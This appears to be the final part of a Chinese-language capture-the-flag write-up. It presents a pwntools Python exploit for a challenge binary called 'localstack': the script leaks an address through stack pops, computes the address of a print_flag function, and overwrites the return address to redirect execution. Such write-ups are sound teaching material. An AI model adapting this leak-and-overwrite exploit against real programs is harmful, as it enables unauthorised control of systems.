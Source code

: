 那根據上述步驟完成寫出 expliot
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./localstack")

context.binary = exe

def main():
    #r = process("./localstack")
    r = remote("0.0.0.0","11100")

    r.sendlineafter(">> ",b"pop")
    r.sendlineafter(">> ",b"pop")
    r.sendlineafter(">> ",b"pop") 

    main_363 = int(r.recvline().decode().split(" ")[1])
    log.success(f"leak main+363 address : {hex(main_363)}")

    print_flag = main_363 - 534
    log.success(f"print_flag address : {hex(print_flag)}")

    r.sendlineafter(">> ",b"push 1")
    r.sendlineafter(">> ",b"push 64")
    r.sendlineafter(">> ",b"push 31")
    log.success(f"{r.recvline().decode()}")
    r.sendlineafter(">> ",b"pop")
    r.sendlineafter(">> ",b"push " + str(print_flag).encode())
    r.sendlineafter(">> ",b"exit")
    #pause()

    r.interactive()


if __name__ == "__main__":
    main()

```